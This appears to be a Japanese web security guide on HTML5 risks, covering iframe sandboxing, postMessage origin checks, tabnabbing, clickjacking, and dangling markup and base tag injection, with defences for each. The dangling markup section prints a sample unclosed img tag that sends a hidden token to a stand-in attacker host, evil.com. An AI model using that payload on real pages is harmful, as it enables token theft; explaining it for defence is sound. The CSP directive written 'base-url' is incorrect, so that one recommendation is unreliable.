 ```yaml
---
title: HTML5 Security
---
```


## iframeのsandbox化

iframeで信頼できないコンテンツを表示する場合、sandbox属性を付与することで、iframe内の制御に様々な制約を適用できる。各種制御それぞれに制約有無を指定することも可能。

sandbox化されたiframeはユニークなオリジンが割り振られる。それにより、コンテキストが分離されるため、安全性が増す。

詳細は[Mozilla](https://developer.mozilla.org/ja/docs/Web/HTML/Element/iframe#attr-sandbox)を参照。

## オリジン間通信

異なるオリジン感で通信をする際、[postMessage](https://developer.mozilla.org/ja/docs/Web/API/Window/postMessage)で実現可能。

ただし、次のとおり何点かの注意事項がある。

### postMessageの送信先（第二引数）は可能な限り指定する

送信先を指定することにより、情報を受け取るターゲットを絞ることができる。

:::danger
`*`の指定ですべてのオリジンをターゲットにできるが、その場合は機密情報を含めるべきではない。
:::

### 受信側は送信元をチェックした上で処理する

イベントリスナの`event.origin`で送信元をチェックする。

```js
window.addEventListener("message", (event) => {
  if (event.origin === "https://example.com") {
    // 処理
  }
});
```

## タブナビング攻撃

タブナビング攻撃については[こちら](https://en.wikipedia.org/wiki/Tabnabbing)を参照。

リンクを別タブで開いたり、ポップアップウィンドウを表示した場合、開かれたコンテンツ側で`window.opener`プロパティを参照すると、タブナビング攻撃を仕掛けることが可能。

対処としては、`rel="noopener"`属性をアンカータグに追加する。

```html
<a href="https://example.com" target="_blank" rel="noopener">LINK</a>
```

## クリックジャッキング攻撃やUIリドレス攻撃への対処

クリックジャッキング攻撃については[こちら](https://www.ipa.go.jp/security/vuln/websecurity-HTML-1_9.html)を参照。

対処としては、iframeによる組込みを制限すること。その手段として、次の2つが挙げられる。

- X-Frame-Optionsヘッダー
- Content-Security-Policyヘッダーのframe-ancestorsディレクティブ

## Dangling markup injection

次のような不正なHTMLタグをページに挿入することで、トークンなどを攻撃者に盗まれてしまう。

```html
<img src="https://evil.com/log.php?
```

上記はimgタグおよび、src属性を閉じていない。そのため、ブラウザのパーサーは適切な終了シーケンスを探す。
もし次のように、inputタグのhidden属性でトークンなどの重要な情報を指定していたら、`https://evil.com/log.php`に送信されてしまう。

```html
<img src="https://evil.com/log.php?
・・・
<input type="hidden" name="token" value="xxxx-yyyy" />
```

対処としては、次の2点。

- 適切にエンコードし、HTMLインジェクション自体を防ぐ
- CSPを使って、攻撃者のサーバーからページのリソースをロードを防ぐ

  ```text
  Content-Security-Policy: img-src 'self'
  ```

## Base tag injection

攻撃者にbaseタグを挿入されると、すべての相対URLが攻撃者のサーバーを指すようになってしまう。

対処としては、次の2点。

- 適切にエンコードし、HTMLインジェクション自体を防ぐ
- CSPを使って、有効なベースURLを指定しておく

  ```text
  Content-Security-Policy: base-url 'self'
  ```
